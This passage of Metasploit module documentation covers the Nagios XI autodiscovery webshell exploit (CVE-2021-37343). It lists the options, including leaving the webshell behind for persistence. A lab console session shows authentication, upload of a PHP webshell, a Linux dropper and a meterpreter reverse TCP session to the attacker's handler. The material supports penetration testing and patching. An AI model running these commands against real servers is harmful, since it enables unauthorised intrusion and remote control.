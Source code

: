 The username to log in to the Nagios XI web interface with. The default is `nagiosadmin`.

### PASSWORD

The password to log in with. Set to `nil` by default.

### WEBSHELL_NAME

Allows the user to name the webshell. If the user doesn't provided a name then one will be automatically generated.
Set to `nil` by default.

### DELETE_WEBSHELL

Indicates if the web shell should be deleted after the meterpreter session or reverse shell is established.
A user may want to leave behind a web shell for persistence reasons. The default is `true`.

## Scenarios

### Nagios XI 5.8.4 - Get a Meterpreter Session

```
msf6 > use auxiliary/scanner/http/nagios_xi_scanner
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
```